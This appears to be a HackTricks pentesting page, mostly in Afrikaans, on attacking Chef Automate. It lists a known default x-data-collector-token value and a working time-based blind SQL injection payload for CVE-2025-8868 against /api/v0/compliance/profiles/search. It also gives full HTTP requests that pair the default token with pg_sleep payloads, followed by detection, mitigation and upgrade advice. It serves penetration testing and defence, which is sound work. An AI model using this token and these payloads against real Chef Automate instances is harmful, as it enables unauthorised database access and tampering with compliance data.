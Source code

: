 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Overview

Hierdie bladsy versamel praktiese tegnieke om Chef Automate instances te enumerate en te attack, met klem op:
- Discovering gRPC-Gateway-backed REST endpoints en die afleiding van request-skemas via validation/error responses
- Abusing the x-data-collector-token authentication header when defaults are present
- Time-based blind SQL injection in the Compliance API (CVE-2025-8868) affecting the filters[].type field in /api/v0/compliance/profiles/search

> Let wel: Backend responses that include header grpc-metadata-content-type: application/grpc typically indicate a gRPC-Gateway bridging REST calls to gRPC services.

## Recon: Architecture and Fingerprints

- Front-end: Dikwels Angular. Statiese bundles kan hints gee oor REST paths (bv. /api/v0/...)
- API transport: REST to gRPC via gRPC-Gateway
- Responses may include grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
- Error bodies starting with pq: strongly suggest PostgreSQL with the Go pq driver
- Interesting Compliance endpoints (auth required):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate het 'n data collector wat versoeke verifieer via 'n toegewyde header:

- Header: x-data-collector-token
- Risk: Sommige omgewings mag 'n default token behou wat toegang tot beskermde API-roetes gee. Bekende default waargeneem in die wild:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

Indien aanwezig, kan hierdie token gebruik word om Compliance API endpoints aan te roep wat andersins deur auth toegesluit is. Probeer altyd defaults te roteer/deaktiveer tydens hardening.

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpoints leak dikwels nuttige validation errors wat die verwagte request model beskryf.

For /api/v0/compliance/profiles/search, the backend expects a body with a filters array, where each element is an object with:

- type: string (filter field identifier)
- values: array of strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
Verkeerd gevormde JSON of verkeerde veldtipes veroorsaak gewoonlik 4xx/5xx met leidrade, en headers dui die gRPC-Gateway-gedrag aan. Gebruik hierdie om velde te kaarteer en inspuitingsvlakke te lokaliseer.

## Compliance API SQL Injection (CVE-2025-8868)

- Aangedane endpoint: POST /api/v0/compliance/profiles/search
- Inspuitingspunt: filters[].type
- Kwetsbaarheidsklas: time-based blind SQL injection in PostgreSQL
- Grondoorsaak: Gebrek aan behoorlike parameterization/whitelisting wanneer die type field in 'n dynamic SQL fragment geïnterpoleer word (waarskynlik gebruik om identifiers/WHERE clauses te konstrueer). Crafted values in type word deur PostgreSQL geëvalueer.

Werkende time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Technique notes:
- Sluit die oorspronklike string met 'n enkele aanhalingsteken
- Koppel 'n subquery wat pg_sleep(N) aanroep
- Gaan weer in stringkonteks via || sodat die finale SQL sintakties geldig bly, ongeag waar type ingebed is

### Bewys deur differensiële latensie

Stuur gepaarde versoeke en vergelyk reaksietye om bedienerkant-uitvoering te verifieer:

- N = 1 sekonde
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 sekondes
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- Response times scale with pg_sleep(N)
- HTTP 500 responses may include pq: details during probing, confirming SQL execution paths

> Wenk: Gebruik 'n tyd-validator (bv. meervoudige dieproewe met statistiese vergelyking) om geraas en vals positiewe te verminder.

### Impak

Geverifieerde gebruikers — of ongeverifieerde akteurs wat 'n standaard x-data-collector-token misbruik — kan arbitrêre SQL binne Chef Automate se PostgreSQL-konteks uitvoer, wat die vertroulikheid en integriteit van compliance-profiele, konfigurasie en telemetrie in gevaar stel.

### Geaffekteerde weergawes / Oplossing

- CVE: CVE-2025-8868
- Opgraderingsriglyn: Chef Automate 4.13.295 of later (Linux x86) volgens verskafferadvies

## Opsporing en Forensiek

- API-laag:
- Monitor 500s op /api/v0/compliance/profiles/search waar filters[].type aanhalingstekens ('), concatenation (||), of funksieverwysings soos pg_sleep bevat
- Kontroleer response headers vir grpc-metadata-content-type om gRPC-Gateway flows te identifiseer
- Databasis-laag (PostgreSQL):
- Ouditeer vir pg_sleep-oproepe en malformed identifier-foute (dikwels met pq: voorvoegsels afkomstig van die Go pq-driver)
- Outentisering:
- Log en waarsku oor gebruik van x-data-collector-token, veral bekende standaardwaardes, oor API-paaie

## Mitigasies en Verharding

- Onmiddellik:
- Draai/deaktiveer standaard data-collector-tokens
- Beperk inkoms na data-collector-endpunte; dwing sterk, unieke tokens af
- Kodevlak:
- Parameteriseer queries; moenie SQL-fragmenten deur string-concatenation bou nie
- Witlys streng toegelate type-waardes op die bediener (enum)
- Vermy dinamiese SQL-samestelling vir identifiers/clauses; as dinamiese gedrag nodig is, gebruik veilige identifier-quoting en eksplisiete witlyste

## Praktiese Toetskontrolelys

- Kontroleer of x-data-collector-token aanvaar word en of die bekende standaard werk
- Map die Compliance API versoekskema deur valideringsfoute uit te lok en foutboodskappe/opskrifte te lees
- Toets vir SQLi in minder voor die hand liggende “identifier-like” velde (bv. filters[].type), nie net waardes-arrays of vlak-1 teksvelde nie
- Gebruik tydgebaseerde tegnieke met concatenation om SQL sintakties geldig oor verskeie kontekste te hou

## Verwysings

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
